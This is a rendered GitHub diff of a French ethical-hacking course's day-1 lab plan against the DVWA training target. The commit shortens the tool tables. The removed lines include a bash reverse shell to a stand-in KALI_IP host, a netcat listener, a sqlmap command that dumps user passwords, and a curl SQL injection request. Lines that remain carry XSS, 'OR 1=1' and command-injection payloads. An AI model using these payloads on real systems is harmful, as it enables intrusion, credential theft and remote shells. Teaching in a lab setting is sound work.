

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: labs_resolution/jour-01/plan-attaque-j1.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/labs_resolution/jour-01/plan-attaque-j1.md
+++ b/labs_resolution/jour-01/plan-attaque-j1.md
@@ -72,12 +63,7 @@ RECON → INITIAL ACCESS → EXECUTION → CREDENTIAL ACCESS → IMPACT
 | **Cible** | `dvwa-target` — pages XSS Reflected et Stored |
 | **Durée** | 30 min |
 
-**Outils :**
-| Outil | Rôle | Commande clé |
-|-------|------|-------------|
-| Firefox | Navigation dans DVWA, exécution des payloads JS | Saisie manuelle des payloads |
-| `python3` | Serveur HTTP pour exfiltration du cookie | `python3 -m http.server 8000` |
-| `curl` | Injection automatisée (alternative) | Vérification par script |
+**Outils :** Firefox, `python3`, `curl`
 
 **Déroulement :**
 1. **Reflected XSS** : Injecter `<script>alert('XSS fonctionnel')</script>` dans le champ "What's your name?"
@@ -102,11 +88,7 @@ RECON → INITIAL ACCESS → EXECUTION → CREDENTIAL ACCESS → IMPACT
 | **Cible** | `dvwa-target` — page SQLi (`/vulnerabilities/sqli/`) |
 | **Durée** | 30 min |
 
-**Outils :**
-| Outil | Rôle | Commande clé |
-|-------|------|-------------|
-| `sqlmap` | Automatisation de l'injection SQL et dump | `sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" --load-cookies=/tmp/dvwa_cookie.txt -D dvwa -T users -C user,password --dump --batch` |
-| `curl` | Test manuel avec `OR 1=1` | `curl -s -b /tmp/dvwa_cookie.txt "http://localhost:8088/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \| grep -c "First name"` |
+**Outils :** `sqlmap`, `curl`
 
 **Déroulement :**
 1. Test manuel : `id=1' OR '1'='1' #` → 5 utilisateurs retournés (au lieu d'1)
@@ -130,12 +112,7 @@ RECON → INITIAL ACCESS → EXECUTION → CREDENTIAL ACCESS → IMPACT
 | **Cible** | `dvwa-target` — page Command Injection (`/vulnerabilities/exec/`) |
 | **Durée** | 30 min |
 
-**Outils :**
-| Outil | Rôle | Commande clé |
-|-------|------|-------------|
-| `netcat` (nc) | Écouteur de reverse shell | `nc -lvnp 4444` |
-| `bash` | Payload de reverse shell | `bash -c 'bash -i >& /dev/tcp/KALI_IP/4444 0>&1'` |
-| `curl` | Injection automatisée | Requête POST avec paramètre `ip=127.0.0.1;whoami` |
+**Outils :** `netcat` (nc), `bash`, `curl`
 
 **Déroulement :**
 1. **Injection basique** : `127.0.0.1; whoami` → confirme `www-data`
```
Also changed, not shown: other parts of labs_resolution/jour-01/plan-attaque-j1.md (+35 -57 lines).
